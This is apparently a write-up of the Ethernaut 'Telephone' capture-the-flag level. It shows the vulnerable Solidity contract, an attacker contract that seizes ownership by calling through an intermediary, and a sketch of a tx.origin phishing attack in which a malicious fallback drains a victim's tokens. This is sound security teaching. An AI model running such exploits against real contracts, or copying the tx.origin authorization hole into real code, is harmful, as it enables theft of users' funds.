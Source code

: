 ```yaml
---
title: Telephone
---
```


Difficulty: ⭐
État: Terminé

Claim ownership of the contract below to complete this level.

Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

This is one is pretty straight forward, here is the attacker contract we can deploy:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

